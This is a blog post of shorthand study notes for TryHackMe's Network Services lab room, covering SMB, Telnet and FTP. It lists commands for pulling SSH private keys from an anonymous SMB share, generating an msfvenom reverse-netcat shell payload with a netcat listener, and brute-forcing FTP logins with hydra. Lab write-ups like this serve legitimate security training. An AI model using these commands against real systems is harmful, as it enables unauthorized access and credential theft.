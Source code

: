 ```yaml
---
title: TryHackMe Network Services Room Notes
author: Mr Ash
type: "post"
published: 2022-03-19
lastUpdated: 2022-11-04
url: "/tryhackme-network-services-room-notes/"
image: https://p146.p4.n0.cdn.getcloudapp.com/items/KouA4YvJ/331dec0f-80dc-47ec-9428-c672af0e39da.jpeg?v=46de36c361b702350d16fc33ad8023eb
categories: Cyber
tags:
    - Networking
    - Linux
    - TryHackMe
    - SMB
    - FTP
    - Telnet
---
```


Are you going through TryHackMe’s Network Services 1 Room? Need help taking notes? I got you covered. Here are my Network Services 1 room notes from TryHackMe, use them as much as you need!

*Disclaimer, this is written in shorthand format, meaning, full sentences and proper grammar are not always used. For writeups, see [SMB Part 1](https://mrash.co/tryhackme-network-services-walkthrough-smb-part-1-3/), for help with Linux, see [Quick Start Guide](https://mrash.co/linux-quick-start-guide/).*

## SMB: Understanding, Enumerating, Exploiting

Server Message Block (SMB) Protocol: client/server comms for file/printer/serial ports/others for MS Windows.

- Type: response-request protocol, transmits multiple messages to est connection.
- Connections: TCP/IP (NetBIOS, NetBEUI, IPX/SPX).
- SMB Commands (SMBs): if est connection, share files etc.
- Support: Samba (open source server) by UNIX.

<!-- <div class="elementor elementor-5269" data-elementor-id="5269" data-elementor-type="section"><div class="elementor-section-wrap"> <section class="elementor-section elementor-top-section elementor-element elementor-element-650fe30 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="650fe30" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-default"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-top-column elementor-element elementor-element-19d1b1d" data-element_type="column" data-id="19d1b1d"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-widget-wrap"> <section class="elementor-section elementor-inner-section elementor-element elementor-element-75001c1 elementor-section-boxed elementor-section-height-default elementor-section-height-default" data-element_type="section" data-id="75001c1" data-particle-mobile-disabled="false" data-particle_enable="false" data-settings="{"ekit_has_onepagescroll_dot":"yes"}"><div class="elementor-container elementor-column-gap-default"><div class="elementor-row"><div class="elementor-column elementor-col-100 elementor-inner-column elementor-element elementor-element-2d39fa8" data-element_type="column" data-id="2d39fa8" data-settings="{"background_background":"gradient"}"><div class="elementor-column-wrap elementor-element-populated"><div class="elementor-background-overlay"></div><div class="elementor-widget-wrap"><div class="elementor-element elementor-element-87a745b elementor-position-right elementor-vertical-align-middle elementor-view-default elementor-mobile-position-top elementor-widget elementor-widget-icon-box" data-element_type="widget" data-id="87a745b" data-settings="{"ekit_we_effect_on":"none"}" data-widget_type="icon-box.default"><div class="elementor-widget-container"><div class="elementor-icon-box-wrapper"><div class="elementor-icon-box-icon"> <span class="elementor-icon elementor-animation-">  </span> </div><div class="elementor-icon-box-content"> <span> **Free Checklist:** Hacker's Learning Path </span> -->

 Offline checklist to track your learning path, become a great hacker and stay on task.

 <!-- </div> </div> </div> </div><div class="elementor-element elementor-element-96a5f87 elementor-tablet-button-align-stretch elementor-button-align-stretch elementor-widget elementor-widget-form" data-element_type="widget" data-id="96a5f87" data-settings="{"button_width":"25","step_next_label":"Next","step_previous_label":"Previous","step_type":"number_text","step_icon_shape":"circle","ekit_we_effect_on":"none"}" data-widget_type="form.default"><div class="elementor-widget-container"> <form class="elementor-form" method="post" name="CTA - Hackers Checklist"> <input name="post_id" type="hidden" value="5269"></input> <input name="form_id" type="hidden" value="96a5f87"></input> <input name="referer_title" type="hidden" value=""></input><div class="elementor-form-fields-wrapper elementor-labels-"><div class="elementor-field-type-email elementor-field-group elementor-column elementor-field-group-email elementor-col-75 elementor-md-80 elementor-field-required"> <label class="elementor-field-label elementor-screen-only" for="form-field-email"> Email </label> <input aria-required="true" class="elementor-field elementor-size-xs  elementor-field-textual" id="form-field-email" name="form_fields[email]" placeholder="Enter Email Here" required="required" size="1" type="email"></input> </div><div class="elementor-field-group elementor-column elementor-field-type-submit elementor-col-25 e-form__buttons"> <button class="elementor-button elementor-size-xs" type="submit"> <span> <span class=" elementor-button-icon"> </span> <span class="elementor-button-text">Get</span> </span> </button> </div> </div> </form> </div> </div> </div> </div> </div> </div> </div> </section> </div> </div> </div> </div> </div> </section> </div> </div>Enumeration: process of gathering info, `enum4linux`. -->

- Install (ubuntu): `enum4linux`
    1. `git clone <github URL>`
    2. `mv enum4linux.pl /usr/bin`
    3. `apt install smbclient`
- Access: `smbclient`
    1. `smbclient -U Anonymous //<ip>/profiles`
    2. `ls`, `more "Working...txt"`
    3. `cd .ssh`, `ls`, `mget id_rsa*`
    4. `chmod 600 id_rsa cactus@<ip>`

## Telnet: Understanding, Enumerating, Exploiting

Telnet: app protocol, connects/executes commands, non-secure clear text, replaced by ssh e.g. `telnet <ip> <port>`.

- Enumeration: dosen’t ‘jump out’ at us.
    1. `sudo nmap -vv -T4 -p- <ip>`
    2. `nmap -vv -A -p 8012 <ip>`
    3. `s****** b******`
- CVE (Common Vuln and Exposures): listed public sec flaws, with IDs.
- Shell: code/program to gain code/command execution.
- Reverse Shell: target comms back to attack device, target has listening port.
    1. `telnet <ip> <port>` | `CTRL + ]` closes telnet.
    2. `sudo tcpdump ip proto icmp -i tun0`
    3. `.RUN ping <my ip> -c 1`
    4. `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`
    5. `nc -lvp 4444`
    6. `.RUN <payload>`

## FTP: Understanding, Enumerating, Exploiting

File Transfer Protocol, allows remote (client/server) files transfers.

- Two Channels: 1) command/control, transmits commands/replies, 2) data, transfers actual data.
- Modes:
    - Active: client opens/listens, server actively connects.
    - Passive: server opens/listens, client connects.
- Enumeration
    1. `nmap -vv -T4 -Pn -p- <ip>` &amp; `nmap -vv -A -p 21 <ip>`
    2. `ftp <ip>`, `anonymous`, `ls`, `more PUBLIC_NOTICE.txt`
- Exploit: command/data channels unencrypted
    1. `hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt.gz -vV <ip> ftp`

This is Day 42 of [\#100DaysOfHacking](https://mrash.co/100daysofhacking/), subscribe to my [newsletter](https://go.mrash.co/newsletter) to see the CyberSec journey! If you like, follow the [Learning Path](https://mrash.co/learning-path-for-beginner-hacker/) for yourself, happy hacking.